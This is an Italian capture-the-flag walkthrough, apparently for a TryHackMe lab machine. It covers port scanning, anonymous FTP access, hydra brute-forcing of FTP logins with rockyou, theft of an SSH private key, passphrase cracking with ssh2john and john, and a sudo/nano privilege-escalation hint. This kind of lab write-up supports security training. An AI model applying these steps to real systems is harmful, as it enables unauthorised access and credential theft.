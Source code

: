 ## HACKERS
partiamo con uno scan delle porte

### enum

```bash
nmap HACKERS.thm -sV -sC 
```
molto bene... abbiamo tre porte aperte andiamo sulla ftp che accetta connessioni in anonimo

## FTP
```bash
ftp Anonymous@HACKERS.THM
```
ottimo prendiamo il note che hanno lasciato

```bash
get note
```
il file dice che ci sono 2 utenti con delle password scarse 
```bash
rcampbell:Robert M. Campbell:Weak password
gcrawford:Gerard B. Crawford:Exposing crypto keys, weak password
Exposing the company's cryptographic keys is a disciplinary offense.
```

facciamo un file user
```bash
nano user.txt
```
e aggiungiamo rcampbell gcrawford

cosa fare quando le password fanno schifo???

## BRUTE FORCE

ecco qua il mio programma preferito HYDRA

facciamo il comando 
```bash
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt HACKERS.THM ftp
```

ecco la password a gratis per noi :)

colleghiamoci in ftp con l'utente trovato 

```bash
ftp gcrawford@HACKERS.THM
```
```bash
ls -a
```
ecco la cartella .ssh
```bash
get id_rsa
```

controllando questa id_rsa ha un altra password....

vabbè risolviamo. crackiamola!!
```bash
ssh2john id_rsa > ssh_hash.txt
john ssh_hash.txt --format=ssh --wordlist=/usr/share/wordlists/rockyou.txt
```
ed ecco la password grazie. colleghiamoci in ssh
```bash
ssh -i id_rsa gcrawford@hackers.thm
```

## privesc

vediamo cosa possiamo fare
```bash
sudo -l
```

OTTIMO ABBIAMO GRANDI POSSIBILITà(guardate gtfo.bins)
(hint: guardate i comandi di nano)

